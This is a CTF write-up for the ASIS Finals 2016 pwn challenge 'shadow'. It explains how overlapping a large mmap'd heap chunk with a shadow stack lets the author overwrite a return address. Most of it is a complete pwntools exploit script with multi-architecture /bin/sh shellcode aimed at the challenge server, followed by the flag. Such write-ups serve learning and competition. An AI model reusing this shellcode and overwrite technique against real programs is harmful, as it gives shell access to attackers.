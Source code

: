 title: ASIS CTF Finals 2016 -- shadow
tags:
  - CTF
  - ASIS
  - python
  - Pwnable
  - shellcode
  - heap
categories:
  - write-ups
author: bruce30262
date: 2016-09-13 15:32:00
---
**Category:** pwn
**Points:** 99  

<!-- more -->   
  
32 bit ELF, with no NX, PIE, RELRO protection. The program will first use `mmap` to allocate a range of memory and treat it as a shadow stack, which stores the function return addresses.  
In the main function the program first ask us to input our name (the buffer was placed in the .bss section), then give us two choice:  
  
* Add a beer. This one will first ask us to input the beer description length, then let us input our own beer description.  
* Read/Modify beer desription. Here we first choose one of our beer, and the program will print out the beer description. After that we can choose if we want to modify the beer description or not.  
  
So where's the vulnerability? The program has `malloc` in the add beer function, but it doesn't have `free` in the entire program, so it's probably not UAF. There's a stack overflow in the beer description function though, but the binary has enabled the stack guard protection, so it's kind of hard for us to bypass the canary check. But then I took a good look at the beer description function, and found that we can call the function recursively, by keep entering an invalid choice. This will cause the shadow stack keep "growing up".  
  
And how's that gonna help us to exploit the service? Well, first of all we know that the `malloc` function in libc will call `mmap` instead for the large size memory allocation ( over 0x20000 bytes). Since the add beer function use `malloc` to allocate memory for our beer description, we could try to create a super long beer description. This will make `malloc` call `mmap` instead, and the allocated memory page **will be placed just right before the last mmap memory page, which is the shadow stack.** If we can make the shadow stack keep "growing up", **it will eventually overlapped with the memory page of our beer description**. Since we can control (modify) the beer description, we can then modify the saved return address and change it to the `name` buffer, which we input our shellcode instead.  
  
```python exp_shadow.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "shadow.asis-ctf.ir"
PORT = 31337
ELF_PATH = "./shadow"

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def sc(arch=context.arch):
    if arch == "i386":
        # shellcraft.i386.linux.sh(), null free, 22 bytes
        return "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x6a\x0e\x58\x48\x48\x48\x99\xcd\x80"
    elif arch == "amd64":
        # shellcraft.amd64.linux.sh(), null free, 24 bytes
        return "\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x31\xf6\x6a\x3b\x58\x99\x0f\x05"
    elif arch == "arm":
        # null free, 27 bytes
        return "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x09\x30\x49\x40\x52\x40\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68"
    elif arch == "aarch64":
        # 4 null bytes, total 35 bytes
        return "\x06\x00\x00\x14\xe0\x03\x1e\xaa\xe1\x03\x1f\xaa\xe2\x03\x1f\xaa\xa8\x1b\x80\xd2\x21\x00\x00\xd4\xfb\xff\xff\x97\x2f\x62\x69\x6e\x2f\x73\x68"
    else:
        return None

def add_one(size, desr):
    r.sendline("1")
    log.info("send desc length")
    r.sendlineafter("length?\n", str(size))
    log.info("send desc")
    r.send(desr)

if __name__ == "__main__":
    
    shellcode_addr = 0x0804a520
    shellcode = sc()

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    log.info("send name (shellcode)")
    r.sendlineafter("name?\n", shellcode)
    r.recvuntil("it?\n")

    log.info("add one beer")
    add_one(0x20000, "A"*(0x20000-4)+"BBBB")
    r.recvuntil("beer uploaded to the memory!\n")
    r.recvuntil("0\n")
    log.info("add beer done")

    log.info("choose desc")
    r.sendline("2") # choose desc
    r.sendline("0") # input index

    log.info("recieving BBBB")
    print r.recvuntil("BBBB")
    log.info("recieving rest output")
    print r.recvuntil("\n")
    print r.recvline()
    log.info("start stacking stack")

    maxx = 80000
    for i in xrange(maxx):
        check = i% 10000
        if check == 0:
            print i
        r.sendline("z")

    r.sendline('y')
    r.send(p32(shellcode_addr)*(0x20000/4))

    r.interactive()

```
  
After I finshed my exploit, I found that it will timeout due to the crappy internet connection, so I have to upload my exploit to trello and ask my teammate **freetsubasa** to send the payload for me XD  
Anyway the flag is: `ASIS{732f9beb138dbca4e44d5d184c3074dc}`